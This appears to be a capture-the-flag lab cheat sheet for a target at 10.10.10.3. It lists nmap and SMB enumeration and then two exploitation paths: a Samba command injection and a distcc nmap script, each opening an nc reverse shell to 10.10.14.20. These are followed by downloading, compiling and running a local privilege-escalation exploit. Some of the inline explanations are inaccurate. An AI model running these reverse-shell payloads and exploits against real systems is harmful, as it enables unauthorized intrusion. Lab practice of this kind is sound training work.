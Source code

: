 #   CMD 

```
nmap -sC -sV 10.10.10.3
```
-sC: run default nmap scripts <br>
-sV: detect service version

```
ls /usr/share/nmap/scripts/ftp*
```
/usr/share/nmap/scripts/ftp-anon.nse<br>
/usr/share/nmap/scripts/ftp-proftpd-backdoor.nse<br>
/usr/share/nmap/scripts/ftp-bounce.nse <br>
/usr/share/nmap/scripts/ftp-syst.nse<br>
/usr/share/nmap/scripts/ftp-brute.nse
/usr/share/nmap/scripts/ftp-libopie.nse <br>
/usr/share/nmap/scripts/ftp-vuln-cve2010-4221.nse
<h5>/usr/share/nmap/scripts/ftp-vsftpd-backdoor.nse</h5>

```
nmap --script ftp-vsftpd-backdoor -p 21 10.10.10.3
```
```
ls /usr/share/nmap/scripts/ssh*
```
```
smbclient -L 10.10.10.3
```
```
smbmap -H 10.10.10.3
```

#   Exploitation #1: Samba

```
nc -nlvp 4444
```
```
smbclient //10.10.10.3/tmp
```
```
logon "/=`nohup nc -nv 10.10.14.20 4444 -e /bin/sh`"
```

logon   ---->>>> is likely the name of a function or command that is being called. <br>
"/="    ---->>>> is not a valid shell syntax and it's not clear what the intention of this string is. <br>
nohup   ---->>>>  is a command that allows a process to continue running in the background even if the user logs out or the terminal is closed. <br>
-nc     ---->>>>  is the netcat command, which is a utility for reading and writing data across network connections. <br>
-nv     ---->>>> are options for nc, which instruct it to use verbose output and to not use DNS for resolving the target IP address. <br>
-e      ---->>>>  is an option for nc that specifies the command to execute after the connection is established. <br>
/bin/sh ---->>>>  is the command that will be executed on the target machine after the reverse shell connection is established. It launches a shell session, allowing the attacker to interact with the target machine's command line. <br>
    
```
script -qc /bin/bash /dev/null 
```
"script" ---->>>>  is a command-line utility that creates a typescript of a terminal session.<br>
"-q" ---->>>>  flag tells "script" to run in quiet mode, which suppresses extra messages from being printed on the console.<br>
"c" ---->>>>  flag tells "script" to capture the output to the specified file, in this case, "/dev/null", which is a special file that discards any data written to it.<br>
"/bin/bash" ---->>>>  is the shell interpreter that executes the commands in the script.<br>
"/dev/null" ---->>>>  is a special file that discards any data written to it.<br>
```
python -c 'import pty; pty.spawn("bash")'
```
#   Exploitation #2: Distcc

```
nc -nlvp 4444
```
```
nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.20 4444 -e /bin/bash'"
```
```
searchsploit -m 8572.c
```
```
python3 -m http.server 8000 
```
```
wget http://10.10.14.20:5555/8572.c
```
```
gcc 8572.c -o 8572  
```
```
ps -aux | grep devd
```
```
nc -nlvp 4445
```
```
./8572 2661
```
